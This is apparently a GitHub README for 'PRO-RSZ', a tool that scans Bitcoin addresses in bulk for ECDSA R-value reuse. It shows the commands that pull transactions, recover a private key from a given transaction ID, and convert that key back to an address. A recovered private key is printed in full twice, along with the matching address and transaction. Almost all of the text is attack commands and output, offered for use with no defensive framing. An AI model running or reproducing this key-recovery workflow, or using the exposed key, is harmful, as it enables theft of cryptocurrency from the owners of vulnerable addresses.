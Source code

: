 # PRO-RSZ
NOTE : Millions Of Trillions Address And Transaction Chack And FIND RSZ Vulnerability 
```bash
python3 addrsz.py
```
Enter the path to the Bitcoin address file Example
```bash
addresses.txt
```
Enter the number of transactions to fetch (1-infinite) Example
```bash
2000
```
![IMG_20250122_132938](https://github.com/user-attachments/assets/c4357307-e4ac-4099-bfa5-cb76de9975e0)

R-value reuse found Results saved in 1BFhrfTTZP3Nw4BNy4eX4KFLsn9ZeijcMm.txt
Chake Folder TXT File 1BFhrfTTZP3Nw4BNy4eX4KFLsn9ZeijcMm.txt

TXT File Transaction Copy
```bash
python3 privatekeydump.py -txid 9ec4bc49e828d924af1d1029cacf709431abbde46d59554b62bc270e3b29c4b1
```
![IMG_20250122_140254](https://github.com/user-attachments/assets/fc4f31e4-53fa-4e9c-a3ed-206bcc0b8674)

Private Key: 0xc477f9f65c22cce20657faa5b2d1d8122336f851a508a1ed04e479c34985bf96

Copy Private Key 
```bash
python3 key_to_address.py
```
Enter your raw private key (hex format)
```bash
0xc477f9f65c22cce20657faa5b2d1d8122336f851a508a1ed04e479c34985bf96
```






